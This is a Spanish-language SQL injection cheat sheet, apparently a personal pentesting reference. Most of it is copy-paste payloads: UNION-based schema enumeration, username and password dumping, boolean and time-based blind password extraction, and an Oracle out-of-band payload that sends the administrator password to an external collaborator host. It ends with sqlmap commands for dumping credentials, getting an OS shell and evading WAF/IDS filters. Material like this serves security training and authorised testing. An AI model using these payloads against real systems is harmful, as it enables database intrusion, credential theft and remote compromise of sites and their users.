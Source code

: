 ```yaml
---

### 💥 **SQL Injection Cheat Sheet** 💥

---
```

---
## **Deteccion**  

```sql
'
"
'%3b select sleep(5)--
' or sleep(5)--
'||pg_sleep(5)--
'; waitfor delay '0:0:5'--
```
--- 
## Payloads 

```sql
poc.js'+(select*from(select(sleep(40)))a)+'.pdf

```


---
# **SQLi**  

## **Fase 1: Descubrimiento de Columnas con `ORDER BY`**  

Para determinar el número de columnas en la consulta SQL, se usa la cláusula **`ORDER BY`**:  
```sql
id=3' order by 100-- -
```
- **Si no da error:** El número de columnas es mayor o igual a 100.  
- **Si da error:** El número de columnas es menor a 100.  
- **Ajustar el número hasta encontrar el límite exacto.**  

---

## **Fase 2: Exploración con `UNION SELECT`**  

Una vez conocida la cantidad de columnas, intentamos combinar los resultados de la consulta original con los nuestros:  
**MySQL y Microsoft**
```sql
id=3' union select 1--+-
id=3' union select NULL,2,@@version--+-

```
**Oracle**
```sql

id=3' union select NULL,NULL FROM DUAL-- 
id=3' union select 'a','b' FROM DUAL-- 
id=3' union select 'a',banner from v$version--
```
Esto debería mostrar el valor `1` en la columna inyectada si la consulta es exitosa.  

---

## **Fase 3: Enumeración de Bases de Datos**  

Para listar todas las bases de datos:  
**MySQL**
```sql
id=32' union select schema_name from information_schema.schemata-- -
```
- **`schema_name`:** Columna que contiene los nombres de las bases de datos.  
- **`information_schema`:** Esquema especial que almacena metadatos.  
- **`schemata`:** Tabla que contiene los nombres de las bases de datos.  
**Oracle**
---

## **Concatenación con `group_concat()`**  
Si el resultado está limitado, usamos la función **`group_concat()`**:  
```sql
id=32' union select group_concat(schema_name) from information_schema.schemata-- -
```
También podemos usar **`LIMIT`** para obtener resultados específicos:  
```sql
id=32' union select schema_name from information_schema.schemata limit 0,1-- -
```

---

## **Fase 4: Enumeración de Tablas**  

Para listar todas las tablas dentro de una base de datos:  
**MySQL**
```sql
id=32' union select group_concat(table_name) from information_schema.tables where table_schema='Hack4u'-- -
```
**Oracle**
```sql
id=32' union select NULL,table_name from all_tables-- -
```


---

## **Fase 5: Enumeración de Columnas**  

Para listar todas las columnas dentro de una tabla específica:  
**MySQL**
```sql
id=32' union select group_concat(column_name) from information_schema.columns where table_schema='Hack4u' and table_name='users'-- -
```
**Oracle**
```sql
id=32' union select NULL,column_name from all_tab_columns where table_name='table'-- -
```
---

## **Fase 6: Extracción de Datos**  
**MySQL**
Obtener los usuarios almacenados:  
```sql
id=32' union select group_concat(username) from users-- -
```

Obtener usuarios y contraseñas en conjunto:  
```sql
id=32' union select group_concat(username,':',password) from users-- -
id=32' union select NULL,group_concat(username,0x3a,password) from users-- 
id=32' union select NULL,concat(username,0x3a,password) from users-- 
id=32' union select NULL,username||':'||password from users-- 2
```

Obtener usuarios y contraseñas aprovechando errores:
*Probar siempre tambien borrando la data que habia antes*
```sql
id=32' or 1=cast((select 1) as INT)-- -
id=' or 1=cast((select password from users limit 1) as INT)-- -
```

**Oracle**
```mysql
id=32' union select username,password from users-- -
```


---
## **BSQLi**
## **Enumeracion basada en nested queries**

**MySQL**
*Enumeracion de contraeñas*
```sql
id=32' and (select substring(password,1,1) from users where username='administrator')='a'-- -
```

*Enumeracion de longitud de contraseña*
```sql
id=32' and (select 'a' from users where username='administrator' and length(password)>10)='a'-- -
```

**Oracle**
*Enumeracion de contraeñas*
```sql
id=32'||(select case when substr(password,1,1)='a' then to_char(1/0) else '' end from users where username='administrator')||'
```

*Enumeracion de longitud de contraseña*
```sql
id=32'||(select case when length(password)>20 then to_char(1/0) else '' end from users where username='administrator')||'
```

## Enumeracion basada en retrasos de tiempo

**PostgreSQL**
*Enumeracion de longitud de contraseña*
```sql
id=32'%3b select case when(username='administrator' and length(password)=20) then pg_sleep(5) else pg_sleep(0) end from users-- 
```

*Enumeracion de contraeñas*
```sql
id=32'%3b select case when(username='administrator' and substring(password,1,1)='a') then pg_sleep(5) else pg_sleep(0) end from users-- 
```

## Enumeracion basada en OOB
*Buscar los payloads en la cheat sheet de portswigger*

**Oracle**
```sql 
id=32' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(select password from users where username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual-- 
```


---
## **Automatización con SQLMap**  

### **Enumeración de Bases de Datos:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbs --cookie "PHPSESSID=8123791283"
```

### **Listar Tablas de una Base de Datos:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbms mysql --batch -D Hack4u --tables
```

### **Listar Columnas de una Tabla:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbms mysql --batch -D Hack4u -T users --columns
```

### **Dumpear Información Sensible:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbms mysql --batch -D Hack4u -T users -C username,password --dump
```

### **Obtener Shell Remota:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --os-shell
```

---

## **Parámetros Útiles de SQLMap**
| Parámetro    | Descripción                                                         |
|-------------|---------------------------------------------------------------------|
| `--dbs`     | Lista todas las bases de datos.                                      |
| `--tables`  | Lista todas las tablas de una base de datos.                         |
| `--columns` | Lista todas las columnas de una tabla.                               |
| `--dump`    | Extrae los datos de la tabla especificada.                           |
| `--os-shell`| Intenta obtener una consola del sistema operativo.                   |
| `--risk`    | Nivel de riesgo (1-3).                                                |
| `--level`   | Nivel de pruebas (1-5).                                               |
| `--tech`    | Especifica técnicas de inyección.                                     |
| `--tamper`  | Usa scripts de evasión para eludir filtros WAF/IDS.                    |

---

